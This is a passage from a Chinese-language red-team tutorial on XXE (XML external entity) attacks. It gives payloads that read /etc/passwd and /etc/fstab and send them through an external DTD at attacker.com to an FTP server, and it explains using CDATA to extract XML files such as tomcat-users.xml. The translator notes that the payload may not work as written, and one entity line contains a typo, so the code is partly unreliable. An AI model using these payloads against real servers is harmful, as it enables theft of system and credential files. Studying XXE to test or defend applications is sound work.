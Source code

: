 您可以通过使用 FTP 来泄露数据。这解决了 http 坏字符的限制。因此，文件无需编码即可传输

要在[http://attacker.com/xxe.dtd上创建的外部dtd](http://attacker.com/xxe.dtd%E4%B8%8A%E5%88%9B%E5%BB%BA%E7%9A%84%E5%A4%96%E9%83%A8dtd)

```bash
<!ENTITY $ file SYSTEM "file:///etc/passwd">
<!ENTITY % req "<!ENTITY abc SYSTEM 'ftp://x.x.x.x:1212/%file; '>">
```

请求 Body

```bash
<?xml version=1.0"?>
<!DOCTYPE foo [
<!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">
%dtd;
%req;
]>
<foo>
  &abc;
</foo>
```

本文到这里已经涵盖了许多不同的技术。现在只剩下一种情况。

> 译者注：上面的原文的 payload 可能存在一些问题，读者需要自行调试下。

## 如果要检索 xml 文件怎么办？

当正在进行红队任务时，你不会止步于仅仅发现漏洞。有时，您需要挖掘更多信息。XML 文件 (例如 tomcat-users.xml) 就是一个需要挖掘的点。但是使用 XXE 检索 xml/dtd 文件时会存在问题。xml 文档内的标签将由解析器解析，并将完全改变其含义，这将导致该攻击不会生效。因此我们需要一种不解析 XML 文档的方法 (应该将其视为纯文本文档)

这就是**CDATA**概念的缘由。

-   **PCDATA** 是将由解析器解析的文本。文本内的标签将被视为标记，并且实体将被扩展。
-   **CDATA** 是*不会* 被解析器解析的文本。文本内的标签**不会**被视为标记，并且实体也不会扩展。

默认情况下，所有内容都是 PCDATA，此关键字指定元素必须包含可解析的数据 - **< , > , &, ‘ , “**

因此，如果您不想要解析您的 XML，请将其包含在 CDATA 中，让我们看看如何做到这一点。

```bash
<?xml version="1.0"?>
<foo>
<bar><![CDATA[<abc>myContent</abc>]]></bar>
</foo>
```

这将会打印**`<abc> myContent </ abc>`**结果。

让我们快速了解如何检索 XML 数据。

## 泄露 XML 文件

创建一个外部 dtd 为

```bash
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY content '%start;%file;%end;'>">
```
